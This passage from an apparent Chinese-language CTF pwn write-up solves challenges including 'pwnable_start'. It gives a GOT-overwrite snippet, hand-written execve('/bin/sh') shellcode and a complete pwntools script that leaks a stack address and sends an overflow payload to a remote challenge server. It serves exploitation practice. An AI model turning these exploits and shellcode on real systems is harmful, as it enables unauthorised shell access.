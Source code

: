 ```python

libc_base=free_addr-libc.symbols['free']
system_addr=libc_base+libc.symbols['system']

edit(2,p64(system_addr))#将free_got改为system地址
delete(3)#相当于执行system("/bin/sh")

r.interactive()

```
https://bbs.pediy.com/thread-247110.htm


## pwnable_start
程序实际就执行了以下两个命令
`write(1,$esp,0x14)` 和 `read(0,$esp,0x3c)`

因为没有开启NX，可以用shellcode来getshell。`0x08048087` 是 `mov ecx, esp`，write 函数的addr参数，从而leak stack。而后面再执行`read` 给了程序第二次输入。read只有 `0x3c`个字节，再减掉24个字节的padding，只剩下36个字节。而pwntools的shellcode太长。

这里引用大佬的shellcode:
```c
xor ecx,ecx
xor edx,edx
push edx ;\x00截断字符串
push 0x68732f6e ; 'n/sh'
push 0x69622f2f ; '//bi'
mov ebx,esp
mov al,0xb
int 0x80
```
32位的程序，系统调用号，即 eax 应该为 0xb
第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。为了4字节对齐，我们用//bin/sh
第二个参数，即 ecx 应该为 0
第三个参数，即 edx 应该为 0
shellcode会被\x00截断，因此用`xor ecx,ecx`来代替`mov ecx,0`

最终脚本
```python
from pwn import *
#context.log_level="debug"

#p = process('./start')
p = remote('node3.buuoj.cn',28850)

payload = 'A'*0x14 + p32(0x8048087)
p.sendafter("Let's start the CTF:",payload)
stack_addr = u32(p.recv(4))
print 'stack_addr: '+hex(stack_addr)

shellcode='''
xor ecx,ecx;
xor edx,edx;
push ebx;
push 0x68732f6e
push 0x69622f2f
mov ebx,esp
mov al,0xb
int 0x80
'''

#shellcode='\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
shellcode=asm(shellcode)
payload = 'A'*0x14 + p32(stack_addr+0x14)+shellcode
p.send(payload)
```
